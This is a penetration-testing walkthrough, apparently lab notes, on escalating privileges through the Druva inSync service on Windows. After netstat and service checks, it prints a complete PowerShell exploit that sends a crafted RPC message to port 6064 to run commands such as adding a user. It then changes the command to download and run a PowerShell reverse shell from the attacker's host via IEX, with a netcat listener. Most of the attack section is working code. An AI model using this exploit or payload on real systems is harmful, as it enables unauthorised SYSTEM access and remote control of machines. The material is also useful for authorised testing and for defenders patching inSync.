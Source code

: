 Take for example the *Druva inSync* program. Enumerate local ports, to check where the suspicious target is running:
```console
C:\zeropio> netstat -ano
```

After finding the process ID (**PID**):
```console
PS C:\zeropio> get-process -Id 3324
```

One last check about the program:
```console
PS C:\zeropio> get-service | ? {$_.DisplayName -like 'Druva*'}
```

With this information in hand, let's try out the exploit PoC about Druva inSync:
```powershell
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```

For our purposes, we want to modify the **$cmd** variable to our desired command. Download this [script](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). Open the file, and append the following at the bottom of the script file:
```
Invoke-PowerShellTcp -Reverse -IPAddress <OUR IP> -Port 9443
```

Modify the **$cmd** variable in the Druva inSync exploit PoC script to download our PowerShell reverse shell into memory:
```powershell
$cmd = "powershell IEX(New-Object Net.Webclient).downloadString('http://<OUR IP>/shell.ps1')"
```

Start a http server, open a netcat and execute the payload.

---
